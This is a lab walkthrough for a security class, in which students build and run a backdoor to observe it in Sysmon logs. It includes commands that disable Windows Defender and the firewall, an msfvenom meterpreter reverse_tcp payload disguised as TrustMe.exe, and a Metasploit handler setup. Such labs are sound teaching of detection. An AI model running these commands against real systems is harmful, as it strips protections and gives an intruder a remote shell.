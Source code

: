 # Sysmon

Let’s disable **Defender**. Simply run the following from an **Administrator PowerShell** prompt:

![](attachments/OpeningPowershell.png)

Next, run the following command in the **Powershell** terminal:

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/applocker_disabledefender.png)
This will disable **Defender** for this session.

If you get angry red errors, that is **Ok**, it means **Defender** is not running.

Next, lets ensure the firewall is disabled. In a Windows Command Prompt.

<pre> netsh advfirewall set allprofiles state off</pre>


Next, set a password for the Administrator account that you can remember

<pre>net user Administrator password1234</pre>

Please note, that is a very bad password.  Come up with something better. But, please remember it.

Before we move on from our Powershell window, lets get our IP by running the following command:

<pre>ipconfig</pre>

![](attachments/powershellipconfig.png)

**REMEMBER - YOUR IP WILL BE DIFFERENT**

Write this IP down so we can use it again later.

Let's continue by opening a **Kali** terminal

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)


We need to run the following commands in order to mount our remote system to the correct directory:

<pre>sudo su -</pre>

<pre>mount -t cifs //[Your IP Address]/c$ /mnt/windows-share -o username=Administrator,password=password1234</pre>

**REMEMBER - YOUR IP ADDRESS AND PASSWORD WILL BE DIFFERENT.**

Run the following commands to start a simple backdoor and backdoor listener: 
 
<pre>sudo su -</pre>

<pre>msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[Your IP Address] lport=4444 -f exe -o /mnt/windows-share/TrustMe.exe</pre>

Let's start the **Metasploit** Handler.  Open a new **Kali** terminal by clicking the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Let's become root.

<pre>sudo su -</pre>

Now let's start the **Metasploit** Handler

<pre>msfconsole -q</pre>

We are going to run the following commands to correctly set the parameters:

<pre>use exploit/multi/handler</pre>

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

<pre>set LHOST [Your IP Address]</pre>

Remember, **Your IP will be different!**

<pre>exploit</pre>

It should look like this:

![](attachments/msfconsole.png)

We will need to open a **"cmd.exe"** terminal as **Administrator**.

![](attachments/OpeningWindowsCommandPrompt.png)

<pre>cd \IntroLabs</pre>

<pre>Sysmon64.exe -accepteula -i sysmonconfig-export.xml</pre>

It should look like this:

![](attachments/sysmonexe.png)

let's run the following commands to run the **"TrustMe.exe"** file.

<pre>cd \</pre>
 
Then run it with the following:

 <pre>TrustMe.exe</pre>

Back at your Kali terminal, you should have a metasploit session!

![](attachments/meterpretersession.png)

Now, we need to view the Sysmon events for this malware:

Open **"Event Viewer"** by pressing the Windows key and searching for it.

![](attachments/eventviewer.png)

You will select Event Viewer > Applications and Services Logs > Microsoft > Windows > Sysmon > Operational

![](attachments/eventviewernav1.png)

You'll have to scroll down a bit until you find the **Sysmon** folder.  

![](attachments/eventviwernav2.png)

Start at the top and work down through the logs, you should see your **malware** executing.  Please note your paths may be different.

![](attachments/logs.png)

![](attachments/processcreateview.png)

***

[Back to Navigation Menu](/IntroClassFiles/navigation.md)
